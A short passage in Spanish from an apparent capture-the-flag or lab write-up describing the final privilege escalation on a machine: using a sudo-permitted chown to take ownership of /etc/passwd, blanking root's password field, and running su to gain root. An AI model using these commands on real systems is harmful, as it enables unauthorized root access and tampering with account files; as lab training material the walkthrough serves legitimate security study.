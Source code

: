 #### less

Si ejecutamos un `sudo -l` veremos que podemos ejecutar `chown` como root, por lo que ejecutaremos esto:

```css
sudo chown less:less /etc/passwd
```

esto hará que el archivo sea de nuestra propiedad, por lo que lo modificamos con nano y borramos la x de root, seria esta:

```css
root:<<<<<x>>>>>:0:0:root:/root:/bin/bash
```

deberia quedar así:

```css
root::0:0:root:/root:/bin/bash
```

guardamos y ahora ejecutamos `su` y listo, ya seremos root.

![root](./images/r00tless/img/root.png)

Gracias por leer.
